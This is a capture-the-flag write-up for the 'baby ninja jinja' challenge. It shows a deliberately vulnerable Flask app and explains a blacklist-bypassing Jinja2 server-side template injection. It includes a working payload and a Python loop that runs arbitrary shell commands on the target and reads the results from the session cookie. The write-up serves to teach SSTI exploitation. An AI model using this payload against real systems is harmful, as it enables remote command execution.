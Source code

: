 # baby ninja jinja
![Screenshot from 2021-08-19 20-05-55](https://user-images.githubusercontent.com/87865134/130073504-107bfaac-b01f-42ea-a657-d8cc051ac7cb.png)

## Information gathering
- found `/debug` path and have source code:
```python
from flask import Flask, session, render_template, request, Response, render_template_string, g
import functools, sqlite3, os

app = Flask(__name__)
app.config['SECRET_KEY'] = os.urandom(120)

acc_tmpl = '''{% extends 'index.html' %}
{% block content %}
<h3>baby_ninja joined, total number of rebels: reb_num<br>
{% endblock %}
'''

def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect('/tmp/ninjas.db')
        db.isolation_level = None
        db.row_factory = sqlite3.Row
        db.text_factory = (lambda s: s.replace('{{', '').
            replace("'", '&#x27;').
            replace('"', '&quot;').
            replace('<', '&lt;').
            replace('>', '&gt;')
        )
    return db

def query_db(query, args=(), one=False):
    with app.app_context():
        cur = get_db().execute(query, args)
        rv = [dict((cur.description[idx][0], str(value)) \
            for idx, value in enumerate(row)) for row in cur.fetchall()]
        return (rv[0] if rv else None) if one else rv

@app.before_first_request
def init_db():
    with app.open_resource('schema.sql', mode='r') as f:
        get_db().cursor().executescript(f.read())

@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None: db.close()

def rite_of_passage(func):
    @functools.wraps(func)
    def born2pwn(*args, **kwargs):

        name = request.args.get('name', '')

        if name:
            query_db('INSERT INTO ninjas (name) VALUES ("%s")' % name)

            report = render_template_string(acc_tmpl.
                replace('baby_ninja', query_db('SELECT name FROM ninjas ORDER BY id DESC', one=True)['name']).
                replace('reb_num', query_db('SELECT COUNT(id) FROM ninjas', one=True).itervalues().next())
            )

            if session.get('leader'): 
                return report

            return render_template('welcome.jinja2')
        return func(*args, **kwargs)
    return born2pwn

@app.route('/')
@rite_of_passage
def index():
    return render_template('index.html')

@app.route('/debug')
def debug():
    return Response(open(__file__).read(), mimetype='text/plain')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337, debug=True)
```

## Analysis
- website use `Flask` template
- value of parameter `?name=` to be saved into database and then select -> `render_template_string()` => maybe **Server-side Template Injection**
- website use blacklist to prevent vulnerability: `{{`, `'`, `"`, `<`, `>` => can't use `{}`. However, we can use `{% %}` to perform injection
- Result of code injection doesnt show in response. 
- In source we see `import session, request` 
  - can use `session` to show result of code injection
  - can use `request` to bypass `'` and `"` or use `chr()`
  
### How to attack:
  - injection code
  - check `session` in `cookie` of Http response
  - decode `session` to view result

## Exploit
- Injection code
  - blacklist: `{{`, `'`, `"`, `<`, `>`
  - payload:

```python     
{% if session.update({1:config.__class__.__init__.__globals__[request.args.os].popen(request.args.command).read()})==1 %}{% endif %}&os=os&command=ls
```
- Python script
```python
import requests
import flask_unsign

url = 'http://142.93.35.92:31857'


while(1):
    cmd = input("command: ")
    if cmd == "q":
        exit()
    payload = "/?name={%+if+session.update({1:config.__class__.__init__.__globals__[request.args.os].popen(request.args.command).read()})+==+1+%}{%+endif+%}&os=os&command="+cmd
    res = requests.Session()
    res.get(url + payload)
    session_cookie = res.cookies.get_dict()['session']
    print(flask_unsign.decode(str(session_cookie))['1'].decode())
```
- run script and get flag

![Screenshot from 2021-08-19 21-52-50](https://user-images.githubusercontent.com/87865134/130090898-9fa2b7d0-aa39-4dca-90b7-0fa3c402d014.png)

## Description
- **category:** Server-side Template Injection

## Reference
- https://flask.palletsprojects.com/en/2.0.x/quickstart/#rendering-templates
